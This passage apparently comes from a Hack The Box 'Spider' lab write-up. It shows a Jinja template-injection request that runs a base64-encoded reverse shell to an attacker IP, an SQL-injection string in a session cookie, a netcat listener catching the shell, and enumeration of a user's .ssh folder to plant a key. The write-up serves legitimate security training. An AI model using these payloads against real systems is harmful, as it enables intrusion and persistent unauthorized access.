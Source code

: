 
```bash
POST /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal HTTP/1.1
Host: spider.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 399
Origin: http://spider.htb
Connection: close
Referer: http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal
Cookie:session=eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Iicgb3IgMT0xICMifQ.YLWySA.frei1g7SnJjAsGrkhkv-0rOcxrA
Upgrade-Insecure-Requests: 1


contact=%7B%25+with+a+%3D+request%5B%22application%22%5D%5B%22%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%22%5D%5B%22%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%22%5D%5B%22%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%22%5D%28%22os%22%29%5B%22popen%22%5D%28%22echo+-n+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43LzEyMzQgMD4mMQo%3D+%7C+base64+-d+%7C+bash%22%29%5B%22read%22%5D%28%29+%25%7D+a+%7B%25+endwith+%25%7D&message=YOU+ARE++DOOMED%21
```
And boom we have the rev shell.
```bash
kali@kali:~/HackTheBox/Spider$ rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.243] 51634
bash: cannot set terminal process group (1441): Inappropriate ioctl for device
bash: no job control in this shell
chiv@spider:/var/www/webapp$ id
uid=1000(chiv) gid=33(www-data) groups=33(www-data)
chiv@spider:/var/www/webapp$ 
```
# WWW-Data to Chiv
Looking at the above id command result we are user chiv so not much tough to escalte to chiv as we are part of chiv user group.
```bash
chiv@spider:/var/www/webapp$ cd /home/chiv
chiv@spider:~$ ls -al
total 188
drwxr-xr-x 7 chiv chiv   4096 Jun  1 04:01 .
drwxr-xr-x 3 root root   4096 May  6 11:42 ..
lrwxrwxrwx 1 root root      9 Apr 24  2020 .bash_history -> /dev/null
-rw-r--r-- 1 chiv chiv    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 chiv chiv   3771 Apr  4  2018 .bashrc
drwx------ 2 chiv chiv   4096 May 18 00:23 .cache
drwxr-x--- 3 chiv chiv   4096 Jun  1 04:01 .config
drwx------ 3 chiv chiv   4096 Jun  1 04:02 .gnupg
drwxrwxr-x 3 chiv chiv   4096 May 18 00:23 .local
-rw-r--r-- 1 chiv chiv 146086 Jun  1 04:03 output
-rw-r--r-- 1 chiv chiv    807 Apr  4  2018 .profile
drwx------ 2 chiv chiv   4096 May  6 11:42 .ssh
-r-------- 1 chiv chiv     33 Jun  1 03:05 user.txt
```
we can list the dir in chiv lets add our ssh key pair over there.
```bash
chiv@spider:~$ cd .ssh
chiv@spider:~/.ssh$ ls -al
ls -al
total 16
drwx------ 2 chiv chiv 4096 May  6 11:42 .
drwxr-xr-x 7 chiv chiv 4096 Jun  1 04:01 ..
-rw-r--r-- 1 chiv chiv  393 May  4 15:42 authorized_keys
```